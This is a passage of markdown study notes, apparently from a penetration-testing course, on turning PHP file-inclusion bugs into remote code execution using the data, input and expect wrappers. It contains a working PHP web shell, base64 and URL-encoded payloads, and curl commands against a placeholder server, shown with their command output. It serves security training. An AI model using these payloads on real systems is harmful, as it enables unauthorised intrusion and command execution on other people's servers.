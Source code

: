 So, our first step would be to base64 encode a basic PHP web shell, as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
Now, we can **URL encode** the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:
![[Pasted image 20250207142450.png]]

We may also use ``curl`` for the same attack, as follows:
```bash
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Input
Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a **POST** request's data. So, the vulnerable parameter must accept **POST** requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting.

To repeat our earlier attack but with the `input` wrapper, we can send a **POST** request to the vulnerable URL and add our web shell as **POST** data. To execute a command, we would pass it as a **GET** parameter, as we did in our previous attack:
```bash
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
>[!Note]
To pass our command as a **GET** request, we need the vulnerable function to also accept **GET** request (i.e. use `$_REQUEST`). If it only accepts **POST** requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
### Expect
Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. 

We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:
```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect

extension=expect
```
As we can see, the `extension` configuration keyword is used to enable the `expect` module, which means we should be able to use it for gaining RCE through the LFI vulnerability. 
